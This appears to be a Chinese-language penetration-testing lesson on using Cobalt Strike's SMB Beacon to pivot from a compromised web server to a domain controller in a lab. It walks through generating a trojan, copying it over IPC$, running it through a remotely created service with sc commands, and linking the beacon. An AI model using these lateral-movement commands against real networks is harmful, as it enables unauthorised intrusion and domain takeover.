# 网络安全：P112：蚁剑到CS的迁移上线（2）

在本节课中，我们将学习如何利用Cobalt Strike（CS）的SMB Beacon功能，通过已控制的Web服务器作为跳板，进一步渗透并控制内网中的域控制器。我们将重点讲解SMB隧道的原理、木马的生成与传输，以及如何通过远程服务执行木马。

## 🚀 搭建SMB隧道

上一节我们介绍了如何从蚁剑迁移到CS并控制Web服务器。本节中我们来看看如何利用CS的SMB Beacon功能，通过Web服务器作为跳板，与内网中的域控制器建立隧道。

CS自带一种功能，可以在跳板机（Web服务器）与内网目标机（域控制器）之间建立一个SMB流量隧道。建立隧道后，流量就可以从黑客的CS服务器，经过跳板机，最终到达内网目标机。

其原理是：在跳板机（父进程）和目标机（子进程）之间建立一个SMB管道进行连接。流量走向是：父进程向子进程发送命令。例如，木马在目标机上运行后，父进程会向子进程发送指令，子进程执行后将结果流量通过管道返回给父进程，父进程再转发给黑客控制的CS服务器。这样，目标机就完全由作为跳板机的父进程操控了。



因此，我们只需要用CS与跳板机之间建立这样一个SMB管道即可。



## 🛠️ 操作步骤

以下是建立SMB隧道并上线域控制器的具体步骤。

### 1. 创建SMB监听器



首先，我们需要在CS中创建一个SMB类型的监听器。

1.  在CS中点击 `Cobalt Strike` -> `Listeners`。
2.  点击 `Add` 按钮。
3.  在 `Payload` 下拉菜单中选择 `windows/beacon_smb/bind_pipe`。
4.  为监听器命名，例如 `SMB`。
5.  点击 `Save`。







### 2. 生成SMB木马

接下来，生成一个用于SMB隧道的木马程序。

1.  在CS中点击 `Attacks` -> `Packages` -> `Windows Executable (S)`。
2.  在 `Listener` 下拉菜单中，选择刚刚创建的 `SMB` 监听器。
3.  选择生成 `Windows EXE` 程序。
4.  将木马保存到桌面，命名为 `smb.exe`。






这个SMB木马的运行原理就是上一节所讲的：黑客先将木马传到Web服务器，Web服务器再利用与域控制器之间的管道（如IPC$）将木马传过去并执行，从而建立控制。



### 3. 传输木马到目标

我们需要分两步将木马传输到内网域控制器上。



**第一步：上传木马到Web服务器**



1.  在CS的Web服务器会话中，进入 `File Browser`（文件管理）。
2.  点击 `Upload`，将桌面生成的 `smb.exe` 上传到Web服务器上。


**第二步：通过IPC$管道传输到域控制器**

由于Web服务器已与域控制器建立了IPC$连接，我们可以使用 `copy` 命令进行远程文件复制。



使用以下命令格式：
```cmd
copy smb.exe \\<目标IP>\C$\
```
例如，目标域控制器IP为 `192.168.52.138`，则命令为：
```cmd
copy smb.exe \\192.168.52.138\C$\
```
执行该命令，将木马从Web服务器复制到域控制器的C盘根目录。






### 4. 远程创建并启动服务执行木马

木马已传输到域控制器，但需要使其运行。由于无法直接远程双击执行，我们可以通过远程创建Windows服务的方式来实现。



**第一步：远程创建服务**

利用已建立的IPC$连接，使用 `sc` 命令在域控制器上创建一个服务，该服务被配置为启动时运行我们的木马。

命令格式如下：
```cmd
sc \\<目标IP> create <服务名> binPath= “C:\smb.exe”
```
例如：
```cmd
sc \\192.168.52.138 create MyService binPath= “C:\smb.exe”
```
执行此命令，在目标机器上创建名为 `MyService` 的服务。


**第二步：启动服务**

创建服务后，启动它即可执行木马。
```cmd
sc \\192.168.52.138 start MyService
```
执行此命令启动服务。


### 5. 连接SMB Beacon上线

服务启动，木马已在域控制器上运行（子进程）。现在需要从作为跳板机的Web服务器（父进程）主动连接它，以建立完整的SMB通信管道。

在CS的Web服务器会话中，使用 `link` 命令连接域控制器的IP地址。
```cmd
link 192.168.52.138
```
执行后，观察CS主界面，域控制器（192.168.52.138）应该会作为新会话上线。






上线成功后，即可在CS中像控制Web服务器一样控制域控制器，进行后续的内网渗透操作。

## 💡 原理与问题解答

### 为什么Web服务器能控制域控制器？

关键在于权限和连接。在本实验环境中，我们控制的Web服务器恰好使用了域管理员账号（如 `AD\administrator`）运行。因此，我们利用该账号密码成功与域控制器建立了IPC$连接。建立IPC$需要目标机器的用户名和密码，而我们在前期信息收集中已获取了这些凭据。

### 整体流量路径回顾

1.  **传输路径**：黑客通过CS将SMB木马上传到Web服务器 -> Web服务器通过IPC$管道将木马复制到域控制器。
2.  **执行路径**：Web服务器通过IPC$远程在域控制器上创建并启动服务 -> 服务执行木马。
3.  **控制路径**：木马（子进程）在域控制器运行 -> Web服务器上的CS父进程通过 `link` 命令主动连接 -> 建立SMB隧道 -> 黑客的CS服务器通过该隧道控制域控制器。


### 关于权限与跨域渗透

*   **高权限账号**：本实验情况较为理想，直接获得了域管权限。在实际中，Web服务器可能只是普通权限，这就需要先进行提权或通过密码喷洒、哈希传递、Kerberos委派攻击等多种技术获取高权限凭据。
*   **跨域渗透**：一个企业网络可能包含多个域（Domain），形成一个域森林。控制当前域（如“研发域”）后，向其他域（如“财务域”、“办公域”）进行的渗透攻击，就称为跨域渗透。这类似于攻破了一个班级后，继续攻击同年级的其他班级。




## 📝 总结

本节课中我们一起学习了利用CS的SMB Beacon进行内网横向移动的关键技术。我们掌握了SMB隧道的搭建原理，并实践了从生成木马、通过跳板机传输、远程服务执行到最终上线域控制器的完整流程。理解此流程对于内网渗透测试至关重要，它清晰地展示了如何利用已控节点作为支点，逐步深入并控制核心网络资产。最后，渗透完成后，务必清理在各台机器上留下的工具和日志记录。